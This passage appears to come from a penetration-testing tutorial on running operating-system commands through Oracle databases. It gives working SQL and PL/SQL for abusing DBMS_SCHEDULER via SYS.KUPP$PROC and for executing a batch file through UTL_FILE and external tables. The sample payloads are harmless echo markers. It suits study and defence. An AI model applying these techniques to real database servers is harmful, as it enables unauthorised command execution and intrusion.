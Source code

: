 ```bash
select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual
```

### **Oracle External Tables**

As the last method for achieving the execution of OS commands, we can use **Oracle External Tables.** This method will need the following privileges:

* UTL\_FILE;
* CREATE TABLE;
* a directory reserved for the user.

Let’s remember that the access to ‘UTL\_FILE’ package is by default provided to all accounts with ‘CONNECT’ role. Step one: Check the issued directories with the following query:

```plsql
SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;
 
TABLE_NAME
------------------------------
ALICE_DIR
```

Step two: Create an executable batch file with desired command:

```plsql
declare
 f utl_file.file_type;
 s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
 f := utl_file.fopen('ALICE_DIR','test.bat','W');
 utl_file.put_line(f,s);
 utl_file.fclose(f);
end;
/
```

Step three: Prepare the external table ‘EXTT’, you will need it to run the file:

```plsql
CREATE TABLE EXTT (line varchar2(256))
ORGANIZATION EXTERNAL
(TYPE oracle_loader
  DEFAULT DIRECTORY ALICE_DIR
  ACCESS PARAMETERS
  ( RECORDS DELIMITED BY NEWLINE
    FIELDS TERMINATED BY ',')
  LOCATION (alice_dir:'test.bat'))
/
```
